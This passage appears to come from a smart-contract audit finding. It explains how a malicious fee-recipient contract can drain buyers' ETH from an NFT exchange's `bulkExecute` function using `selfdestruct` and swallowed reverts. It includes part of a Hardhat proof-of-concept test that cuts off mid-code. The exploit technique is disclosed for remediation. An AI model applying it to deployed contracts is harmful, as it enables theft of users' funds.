 After the fee recipient drains the rest of the 4 ETH funds of the Exchange contract (the buyers funds). They need to transfer a portion back (0.9 ETH) to the Exchange contract in order for the `_executeFundsTransfer` to not revert and be able to send funds (0.9 ETH) to the seller. This can be done using the `selfdestruct` opcode

After that, the `_execute` function will continue and exit normally.  
`bulkExecute` will continue to the next order and call `_execute` which will revert.  
Because `bulkExecute` delegatecalls `_execute` and continues even after revert, the function `bulkExecute` will complete its execution without any errors and all the buyers ETH funds will be lost and nothing will be refunded.

### [](#hardhat-proof-of-concept)Hardhat Proof of Concept

Add the following test to `execution.test.ts`:

    describe.only('hack', async () => {
          let executions: any[];
          let value: BigNumber;
          beforeEach(async () => {
            await updateBalances();
            const _executions = [];
            value = BigNumber.from(0);
            // deploy MockFeeReceipient
            let contractFactory = await (hre as any).ethers.getContractFactory(
              "MockFeeReceipient",
              {},
            );
            let contractMockFeeReceipient = await contractFactory.deploy(alice.address,price);
            await contractMockFeeReceipient.deployed();
            //generate alice and bob orders. alice fee recipient is MockFeeReceipient. 10% cut
            tokenId += 1;
            await mockERC721.mint(alice.address, tokenId);
            sell = generateOrder(alice, {
              side: Side.Sell,
              tokenId,
              paymentToken: ZERO_ADDRESS,
              fees: [ 
                {
                  rate: 1000,
                  recipient: contractMockFeeReceipient.address,
                }
              ],
            });
            buy = generateOrder(bob, { 
              side: Side.Buy,
              tokenId,
              paymentToken: ZERO_ADDRESS});
            _executions.push({
                sell: await sell.packNoOracleSig(),
                buy: await buy.packNoSigs(),
            });
            // create 3 more executions
            tokenId += 1;
            for (let i = tokenId; i < tokenId + 3; i++) {
              await mockERC721.mint(thirdParty.address, i);
              const _sell = generateOrder(thirdParty, {
                side: Side.Sell,
                tokenId: i,
                paymentToken: ZERO_ADDRESS,
              });
              const _buy = generateOrder(bob, {
                side: Side.Buy,
                tokenId: i,
                paymentToken: ZERO_ADDRESS,
              });